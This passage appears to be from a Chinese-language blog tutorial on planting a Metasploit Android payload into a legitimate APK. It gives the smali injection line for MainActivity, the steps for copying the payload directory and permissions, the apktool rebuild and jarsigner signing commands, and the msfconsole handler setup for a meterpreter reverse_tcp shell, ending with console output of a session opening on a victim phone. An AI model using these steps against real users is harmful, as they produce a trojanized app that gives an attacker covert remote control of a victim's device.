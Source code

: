 2. 在目标MainActivityOnCreate插入
```
invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V

```

3. 将木马mua文件夹中的metasploit整个目录放到目标文件下com下

4. 把木马AndroidManifest文件的所有权限复制到目标的AndroidManifest中

5. 重新构建apk

```
apktool b normal -o new.apk
```

6.签名

```
jarsigner -verbose -keystore ~/.android/debug.keystore -storepass android -keypass android -digestalg SHA1 -sigalg MD5withRSA  new.apk  androiddebugkey
```


### 监听手机

以此输入下列命令，比较注意的是这些参数的值跟之前msfvenom使用的参数一样。url和端口号

```
//加载模块
use exploit/multi/handler 
//选择Payload
set payload android/meterpreter/reverse_tcp 
//查看参数设置
show options 
set LHOST 10.0.0.101
set LPORT 5555
show options 

```
![image](http://lbz-blog.test.upcdn.net/post/%E6%9C%A8%E9%A9%AC-%E8%BE%93%E5%85%A5%E5%8F%82%E6%95%B0.png)

最后执行下面命令正在监听
```
exploit
```

```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.0.0.101:5555

```
这里表示一致在监听，如果现在用户点击了那个木马程序，那么就会建立一个meterpreter连接。

```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.0.0.101:5555
[*] Sending stage (76767 bytes) to 10.0.0.15
[*] Meterpreter session 1 opened (10.0.0.101:5555 -> 10.0.0.15:44292) at 2020-09-17 19:47:25 +0800

meterpreter >
```
